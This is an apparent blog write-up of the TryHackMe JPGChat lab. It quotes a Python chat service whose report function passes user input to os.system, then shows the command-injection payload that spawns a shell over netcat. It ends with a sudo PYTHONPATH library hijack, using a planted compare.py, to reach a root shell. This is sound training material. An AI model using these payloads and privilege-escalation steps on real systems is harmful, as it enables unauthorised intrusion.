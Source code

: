 ```yaml
---
layout: post
title: "TryHackMe - JPGChat Writeup"
permalink: /writeups/tryhackme/jpgchat
author: acfirthh
---
```


![TryHackMe: JPGChat (Easy)](images/JPGChat.png)

**Date:** 29/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** JPGChat\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - JPGChat](https://tryhackme.com/room/jpgchat)

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found [it](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Initial Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.